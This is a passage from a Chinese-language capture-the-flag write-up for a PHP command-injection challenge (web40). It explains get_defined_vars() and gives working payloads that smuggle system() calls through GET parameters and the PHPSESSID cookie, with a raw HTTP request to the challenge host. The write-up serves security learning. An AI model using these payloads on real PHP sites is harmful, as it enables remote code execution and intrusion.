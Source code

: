 > `get_defined_vars()` 是 PHP 中的一个函数，它用于获取当前符号表中所有已定义的变量。符号表是 PHP 用来存储变量名和它们对应值的数据结构。
>
> 当你调用 `get_defined_vars()` 函数时，它会返回一个数组，其中包含了当前作用域内所有已定义的变量。这个函数在调试和测试时非常有用，因为它可以帮助你快速查看当前作用域内有哪些变量可用
>
> ![web40_func](./image/web40_func.png)

既然可以通过post方法逃逸也可以通过get方法参数逃逸

payload：`?c=eval(next(reset(get_defined_vars())));&pay=system("tac flag.php");`

>  reset()将指针指回第一个变量及c
>
> next()，c的下一个变量既pay



### 方法三：sessionid读取变量

用session_id();读取sessionid

/?c=session_start();system(session_id());

设置sessionid

Cookie: PHPSESSID=ls;

```GET /?c=session_start();system(session_id()); HTTP/1.1
GET /?c=session_start();var_dump(get_defined_vars());system(session_id()); HTTP/1.1
Host: 86062c19-8c16-44f1-bb40-0ef4202c2207.challenge.ctf.show
Sec-Ch-Ua: "Microsoft Edge";v="129", "Not=A?Brand";v="8", "Chromium";v="129"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Cookie: PHPSESSID=ls;
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Priority: u=0, i
Connection: close

```